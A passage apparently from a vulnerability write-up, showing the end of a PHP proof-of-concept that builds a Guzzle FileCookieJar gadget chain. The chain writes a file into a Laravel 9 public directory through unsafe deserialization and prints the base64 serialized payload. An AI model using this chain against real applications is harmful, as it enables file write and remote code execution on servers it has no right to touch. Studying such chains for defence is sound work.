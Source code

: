 ```php
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    echo base64_encode(serialize($pop));
}
```

<div align=center><img src="./images/12.png"></div>
